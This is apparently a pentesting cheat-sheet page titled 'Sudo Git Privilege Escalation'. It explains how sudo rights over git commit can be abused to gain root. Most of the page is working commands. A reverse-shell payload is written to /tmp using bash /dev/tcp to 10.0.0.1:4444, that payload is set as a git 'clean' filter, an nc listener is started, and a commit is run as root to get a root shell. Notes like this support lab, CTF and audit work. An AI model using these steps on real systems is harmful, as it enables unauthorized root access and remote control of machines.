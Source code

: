 ```yaml
---
title: Sudo Git Privilege Escalation
description: Sudo git is vulnerable to privilege escalation.
tags:
    - Privilege Escalation
refs:
date: 2023-03-12
draft: false
---
```


## Investigation

```bash
sudo /usr/bin/git --git-dir=/opt/example/.git --work-tree=/opt/example add -A
sudo /usr/bin/git --git-dir=/opt/example/.git --work-tree=/opt/example commit -m "commit"
```

If we can commit the git repository as root, we may be able to escalate privileges.

<br />

## Exploitation

### 1. Create a Payload

```bash
echo 'bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"' > /tmp/revshell
chmod +x /tmp/revshell
```

### 2. Set Git Config

```bash
# Go to the git repository
cd /opt/example
git init
echo '*.php filter=indent' > .git/info/attributes
git config filter.indent.clean /tmp/revshell
```

### 3. Commit the Repository

Before committing, we need to start a listener in local machine.

```bash
nc -lvnp 4444
```

Then commit with sudo.

```bash
sudo /usr/bin/git --git-dir=/opt/example/.git --work-tree=/opt/example add -A
sudo /usr/bin/git --git-dir=/opt/example/.git --work-tree=/opt/example commit -m "commit"
```

Now we should get a shell in local terminal.